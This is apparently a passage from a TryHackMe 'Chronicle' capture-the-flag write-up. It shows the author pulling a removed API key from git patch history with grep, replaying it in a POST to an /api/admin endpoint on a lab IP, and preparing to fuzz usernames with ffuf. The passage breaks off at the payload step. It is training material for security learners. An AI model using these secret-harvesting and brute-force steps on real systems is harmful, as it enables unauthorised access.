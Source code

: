 "git log patch command displays the files that have been modified"

	git log --patch > keys

its gives us a lengthy output so i saves the output to file name paths 

And next looking into the file we got _key_

	less keys | grep key
```bash

┌──(arundhanush㉿kali)-[~/…/THM/chronicle/10.10.101.255/old]
└─$ less keys | grep key
-    xhttp.send('{"key":"NULL"}')       //Removed the API Key to stop the forget password functionality 
-    if(data['key']=='7454cxxxxxxxxxxxxxxxxxxxxxxbc7ef'):
-    if(data['key']=='abcd'):
+    if(data['key']=='7454cxxxxxxxxxxxxxxxxxxxxxxbc7ef'):
+    xhttp.send('{"key":"NULL"}')       //Removed the API Key to stop the forget password functionality 
+    if(data['key']=='abcd'):
```

Successfully API Key, lets send request with this key

```bash
POST /api/admin HTTP/1.1
Host: 10.10.89.35:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/json
Content-Length: 42
Origin: http://10.10.89.35:8081
Connection: close
Referer: http://10.10.89.35:8081/forgot?

{"key":"7454cxxxxxxxxxxxxxxxxxxxxxxbc7ef"}

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 16
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Sat, 14 Aug 2021 04:16:29 GMT

Invalid Username

```

Its shows Invalid Username and I tried another usernames like admin, guest, cirius but nothing happens not works.

Lets try to FUZZ(ffuf) the username, payload I use the _Seclists_ Names.txt

Payload
